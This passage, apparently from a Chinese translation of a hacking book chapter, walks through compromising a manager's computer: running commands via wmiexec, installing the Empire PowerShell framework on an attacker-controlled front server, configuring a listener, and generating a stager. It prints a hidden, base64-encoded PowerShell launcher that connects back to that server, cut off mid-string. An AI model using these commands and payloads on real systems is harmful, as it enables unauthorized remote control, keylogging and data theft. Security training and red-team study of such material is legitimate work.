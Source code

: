 ## Empire来拯救
我们可以依靠 wmiexec 在管理器的计算机上远程执行命令，但一旦我们深入推进，我们能做的相当有限：收集有关域的信息、启动键盘记录器、可能浏览文件夹等。

因此，我们将使用由@harmj0y、@sixdub和@enigma0x3开发的名为Empire的PowerShell框架。它是一个脚本集合，可以完成所有繁重的工作，并自动执行这些侦察和升级过程。

我们将遵循这个邪恶模式：使用wmiexec在管理者的计算机上执行Empire脚本。此脚本连接回前置服务器，并允许我们交互访问要在管理器计算机上执行的模块集合。

为了能够接收来自受感染目标的传入连接，我们在前置服务器上下载并安装Empire PS（基本上是复制Git存储库并启动install.sh）。
![](chap4/chap4-6.jpg)

在欢迎屏幕上，转到监听器菜单（命令监听器），并使用info命令列出默认的监听器：
![](chap4/chap4-7.jpg)

通过发出 set 命令（例如：`set Port 443`）来设置正确的端口和地址。然后执行监听器：`run <Listener_name>`。

现在我们需要生成将连接回此监听器的PowerShell代码。我们将这段代码称为“stager”或“agent”：
```
(Emire) > usestager launcher
(Emire) > Set Listener FrontGun_List
(Emire) > Set OutFile /root/stager_ps.ps1
```

如果您检查stager_ps.ps1文件，您将得到以下内容：
```
powershell.exe -NoP -sta -NonI -W Hidden -Enc
WwBTAFkAUwB0AGUAbQAuAE4AZQBUAC4AUwBlAHIAdgBpAGMARQBQAG
8AaQBOAFQATQBhAG4AQQBnAGUAcgBdADoAOgBFAHgAUABFAEMAdAAxA
DAAMABDAG8ATgBUAEkAbgB1AEUAIAA9ACAAMAA7ACQAVwBDAD0ATgBl
AFcALQBPAEIAagBFAEMAVAAgAFMAWQBTAFQAZQBtAC4ATgBlAHQALgBX
AEUAQgBDAEwASQBFAE4AdAA7ACQAdQA9ACcATQBvAHoAaQBsAGwAYQA
vADUALgAwACAAKABXAGkAbgBkAG8AdwBzACAATgBUACAANgAuADEAOw
AgAFcATwBXADYANAA7ACAAVAByAGkAZABlAG4AdAAvADcALgAwADsAIABy
AHYAOgAxADEALgAwACkAIABsAGkAawBlACAARwBlAGMAawBvACcAOwAkA
HcAYwAuAEgARQBhAGQAZQBSAFMALgBBAEQARAAoACcAVQBzAGUAcgAtA
EEAZwBlAG4AdAAnACwAJAB1ACkAOwAkAFcAYwAuAFAAcgBPAFgAeQAgAD0
AIABbAFMAWQBzAFQAZQBNAC4ATgBlAHQALgBXAGUAQgBSAGUAcQBVAE
UAUwBUAF0AOgA6AEQARQBmAEEAVQBsAHQAVwBFAGIAUABSAG8AeAB5A
```